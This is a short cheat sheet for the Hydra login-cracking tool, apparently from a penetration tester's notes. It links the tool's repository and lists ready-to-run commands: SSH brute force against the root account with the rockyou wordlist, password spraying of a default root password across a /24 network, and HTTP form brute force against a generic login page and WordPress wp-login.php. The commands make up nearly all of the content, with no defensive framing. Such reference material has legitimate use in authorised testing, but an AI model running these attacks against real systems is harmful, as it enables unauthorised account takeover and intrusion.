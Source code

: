 # Hydra

## Documentation

* [https://github.com/vanhauser-thc/thc-hydra](https://github.com/vanhauser-thc/thc-hydra)

## Common Options

* \-l : username
* \-P : wordlist

## Examples

### SSH

#### Bruteforcing user on a single host

```
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1 -e nsr ssh
```

#### Spraying across a network

```
hydra -l root -p toor 10.0.0.0/24 ssh
```

### HTTP POST

```
hydra 10.0.0.1 http-form-post "/action.php:user=admin&pass=^PASS^:INVALID LOGIN" -l admin -P /usr/share/wordlists/rockyou.txt -vV -f
```

Wordpress login:

```
hydra 10.0.0.1 http-form-post "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:S=Location" -l admin -P /usr/share/wordlists/rockyou.txt -vV -f
```
